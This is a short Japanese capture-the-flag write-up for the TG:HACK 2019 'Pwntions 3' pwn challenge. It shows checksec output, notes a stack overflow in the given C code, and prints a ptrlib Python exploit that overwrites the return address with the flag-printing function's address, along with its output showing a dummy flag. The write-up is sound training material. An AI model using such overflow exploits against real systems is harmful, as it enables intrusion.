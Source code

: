 # [pwn 100pts] Pwntions 3 - TG:HACK 2019
32bitで全部無効です。
```
$ checksec -f pwntion3
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable  FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   87 Symbols     No	0		6	pwntion3
```

これもCのコードが渡されています。
単にスタックオーバーフローがあり、flagを表示する関数があるのでそこへ飛ばします。

```python
from ptrlib import *

elf = ELF("./pwntion3")
sock = Process("./pwntion3")

payload = b'A' * 32
payload += p32(elf.symbol("brew_pwntion")) * 8
sock.sendline(payload)

sock.interactive()
```

簡単ですね。
```
$ python solve.py 
[+] Process: Successfully created new process (PID=29546)
[ptrlib]$ Test banner

Professor maritio_o:
> I've made a function for you, my magnificent students! Do a little brewing and show me what you are good for!

Student: FLAG{Dummy}
FLAG{Dummy}
FLAG{Dummy}
FLAG{Dummy}
FLAG{Dummy}
```

# 感想
pwn初心者向けの問題だと思います。

